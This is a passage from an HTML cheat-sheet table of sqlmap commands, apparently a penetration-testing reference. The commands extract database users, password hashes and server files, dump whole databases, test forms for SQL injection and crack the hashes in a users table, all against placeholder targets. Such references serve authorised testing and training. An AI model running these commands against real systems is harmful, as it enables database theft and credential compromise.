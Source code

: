 <tr>
<td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>
–level=3 –current-user –current-db –passwords<br>
–file-read=”/var/www/blah.php”</td>
<td>Targeted sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u “http://meh.com/meh.php?id=1”<br>
–dbms=mysql –tech=U –random-agent –dump</td>
<td>Scan url for union + error based injection with mysql backend<br>
and use a random user agent + database dump</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh.com/form/” –forms</td>
<td>sqlmap check form for injection</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh/vuln-form” –forms<br>
-D database-name -T users –dump</td>
<td>sqlmap dump and crack hashes for table users on database-name.</td>
</tr>
</tbody>
</table>